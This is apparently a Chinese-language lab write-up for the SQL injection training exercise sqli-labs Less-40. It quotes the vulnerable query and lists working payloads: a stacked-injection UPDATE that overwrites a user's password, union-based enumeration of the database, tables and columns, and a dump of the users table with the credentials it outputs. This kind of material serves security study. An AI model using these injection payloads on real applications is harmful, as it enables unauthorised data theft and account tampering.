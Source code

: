 ```yaml
---
title: less40
url: https://www.yuque.com/u29002979/ep2zrx/uc0q7vn3flveo5x8
---
```


```bash
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
/* execute multi query */
if (mysqli_multi_query($con1, $sql))
```

闭合方式为**')**。依旧存在堆叠注入 <a name="PPyxl"></a>

# 堆叠注入

利用堆叠注入，**修改**Dumb账户的密码&#x20;
`?id=1')**; update** security.users set password='xiugai' where username='Dumb'--+`

查询看是发现Dumb账户的密码变成了 'xiugai'
`?id=-1') union select 1,2,(select group_concat(username,0x7e,password)from users)--+`

> Your Username is : 2
> Your Password is : Dumb~xiugai,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~1234,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4,admin'-- +~123456

密码修改成功 <a name="bzYh1"></a>

# 注入点测试

`?id=1'`

`?id=1') or 1=('1`闭合
闭合方式是单引号加括号**')**

```bash
判断字段数 
?id=1') order by 4--+ 
?id=1') order by 3--+ 

找回显点
?id=-1') union select 1,2,3--+  

爆破数据库名称
?id=-1') union select 1,2,database()--+

爆破数据库表名称
?id=-1') union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+

爆破字段名称
?id=-1') union select 1,2,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users'--+

爆破字段内容
?id=-1') union select 1,2,(select group_concat(username,0x7e,password) from users)--+
```
